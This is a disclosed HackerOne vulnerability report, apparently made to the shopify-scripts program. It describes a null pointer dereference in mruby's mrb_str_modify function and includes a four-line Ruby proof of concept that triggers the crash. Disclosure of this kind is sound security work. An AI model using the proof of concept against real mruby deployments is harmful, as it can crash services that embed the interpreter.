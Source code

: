 # Null pointer dereference in mrb_str_modify

## Report Details
- **Report ID**: 197723
- **URL**: https://hackerone.com/reports/197723
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-01-12T05:30:25.949Z
- **Disclosed**: 2017-02-07T06:28:59.625Z

## Reporter
- **Username**: marotagem_vrt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The function  mrb_str_modify doesn't check if s->as.heap.ptr is NULL before operating in it.

Attempt to write to a NULL pointer happens here:
```
676	      RSTR_PTR(s)[s->as.heap.len] = '\0';
```

Poc:
```ruby
a = String.new
a[0]
GC.start()
a.upcase!
```

Version tested: https://github.com/mruby/mruby/blob/e1ff71029f95e3274136263adbdc51c662ec52de/src/string.c

## Attachments
No attachments
